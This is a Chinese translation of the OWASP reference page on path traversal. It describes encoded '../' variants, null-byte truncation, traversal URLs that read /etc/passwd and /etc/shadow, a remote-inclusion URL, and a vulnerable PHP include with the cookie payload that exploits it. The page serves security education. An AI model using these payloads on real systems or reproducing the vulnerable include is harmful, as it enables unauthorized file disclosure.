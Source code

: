 [TOC]

最新版本 (mm/dd/yy): 10/6/2015_ 翻译自[Path Traversal](https://www.owasp.org/index.php/Path_Traversal "Path Traversal")

概览
==

路径遍历攻击（也称作目录遍历）的目标是访问web根目录外存储的文件和目录。通过操纵使用“点-斜线（../）”序列及其变体引用文件的变量或使用绝对文件路径，可以访问存储在文件系统上的任意文件和目录，包括应用程序源代码或配置和关键的系统文件。应该注意的是，对文件的访问受到系统操作访问控制的限制（例如在Microsoft Windows操作系统上锁定或使用中的文件）。这种攻击也被称为“点点斜线”，“目录遍历”，“目录爬升”和“回溯”。

相关安全活动
======

如何避免路径遍历漏洞
----------

请参阅关于如何[避免路径遍历漏洞](https://www.owasp.org/index.php/File_System#Path_traversal "避免路径遍历漏洞")的[OWASP指南](https://www.owasp.org/index.php/Category:OWASP_Guide_Project "OWASP指南")文章。

如何测试路径遍历漏洞
----------

有关如何[测试路径遍历漏洞](https://www.owasp.org/index.php/Testing_for_Path_Traversal_(OWASP-AZ-001) "测试路径遍历漏洞")的信息，请参阅[OWASP测试指南](https://www.owasp.org/index.php/Category:OWASP_Testing_Project "OWASP测试指南")文章。

漏洞描述
====

请求变化
----

### 编码和再编码

    %2e%2e%2f represents ../
    %2e%2e/ represents ../
    ..%2f represents ../ 
    %2e%2e%5c represents ..\
    %2e%2e\ represents ..\ 
    ..%5c represents ..\ 
    %252e%252e%255c represents ..\ 
    ..%255c represents ..\ 


诸如此类

### 百分比编码（又名URL编码）

请注意，Web容器对来自表单和URL的百分比编码值执行一级解码。

    ..%c0%af represents ../ 
    ..%c1%9c represents ..\ 


### OS特性

Unix： 根目录： “ / ” 目录分隔符：“/” Windows： 根目录：“<分区字母>：\\” 目录分隔符：“/”或“\\” 请注意，Windows允许文件名后面加上额外的.\ /字符。 在很多的操作系统中，可以注入空比特`%00`来截断文件名。例如，传递如下的参数 `?file=secret.doc%00.pdf` 将导致Java应用程序识别以“.pdf”结尾的字符串，操作系统将看到以“.doc”结尾的文件。 攻击者可以使用这个技巧绕过验证例程。

攻击示例
====

示例1
---

接下来的示例展现了应用是如何处理使用的资源的

     http://some_site.com.br/get-files.jsp?file=report.pdf  
     http://some_site.com.br/get-page.php?home=aaa.html  
     http://some_site.com.br/some-page.asp?page=index.html  


在这些示例中，可以插入恶意字符串作为变量参数来访问位于Web发布目录之外的文件。

      http://some_site.com.br/get-files?file=../../../../some dir/some file 
      http://some_site.com.br/../../../../some dir/some file 


接下来的URL展显了 *NIX 密码文件泄露

    http://some_site.com.br/../../../../etc/shadow  
    http://some_site.com.br/get-files?file=/etc/passwd 


注意：在Windows系统中，攻击者只能访问Web根目录位于的分区中，而在Linux中，他可以访问整个磁盘。

示例2
---

也有可能包含位于外部网站的文件或者脚本 `http://some_site.com.br/some-page?page=http://other-site.com.br/other-page.htm/malicius-code.php`

示例3
---

这个例子说明了攻击者是如何让服务器显示CGI源代码的。 `http://vulnerable-page.org/cgi-bin/main.cgi?file=main.cgi`

示例4
---

本示例摘录自维基百科-目录遍历 易受攻击的应用程序代码的典型示例是：

    <?php
    $template = 'blue.php';
    if ( is_set( $_COOKIE['TEMPLATE'] ) )
       $template = $_COOKIE['TEMPLATE'];
    include ( "/home/users/phpguru/templates/" . $template );
    ?>


通过以下的HTTP请求对系统发起攻击

    GET /vulnerable.php HTTP/1.0
    Cookie: TEMPLATE=../../../../../../../../../etc/passwd


收集如下的服务器响应:

    HTTP/1.0 200 OK
    Content-Type: text/html
    Server: Apache
    
    root:fi3sED95ibqR6:0:1:System Operator:/:/bin/ksh 
    daemon:*:1:1::/tmp: 
    phpguru:f8fk3j1OIf31.:182:100:Developer:/home/users/phpguru/:/bin/csh


于`/home/users/phpguru/templates/`后重复的 ../字符导致`include()`函数越过了root目录，然后包含了UNIX的密码文件 `/etc/passwd`。UNIX的`etc/passwd`是用来演示目录遍历的常用文件，因为破解者经常使用它来破解密码。

绝对路径遍历
------

接下来的URL包含此攻击的漏洞

    http://testsite.com/get.php?f=list
    http://testsite.com/get.cgi?f=2
    http://testsite.com/get.asp?f=test


攻击者可以通过这种方式执行攻击

    http://testsite.com/get.php?f=/var/www/html/get.php
    http://testsite.com/get.cgi?f=/var/www/html/admin/get.inc
    http://testsite.com/get.asp?f=/etc/passwd


当Web服务器返回有关Web应用程序中的错误的信息时，攻击者将更容易猜测正确的位置（例如，可能会显示源代码的文件路径）。

相关攻击代理
======

*   [类别：信息披露](https://www.owasp.org/index.php?title=Category:Information_Disclosure&action=edit&redlink=1 "类别：信息披露")

相关攻击方式
======

*   [资源注入](https://www.owasp.org/index.php/Resource_Injection "资源注入")

相关漏洞
====

*   [类别：输入验证漏洞](https://www.owasp.org/index.php/Category:Input_Validation_Vulnerability "类别：输入验证漏洞")

相关防御措施
======

*   [类别：输入验证](https://www.owasp.org/index.php/Category:Input_Validation "类别：输入验证")

参考
==

*   [http://cwe.mitre.org/data/definitions/22.html](http://cwe.mitre.org/data/definitions/22.html "http://cwe.mitre.org/data/definitions/22.html")
*   [http://www.webappsec.org/projects/threat/classes/path_traversal.shtml](http://www.webappsec.org/projects/threat/classes/path_traversal.shtml "http://www.webappsec.org/projects/threat/classes/path_traversal.shtml")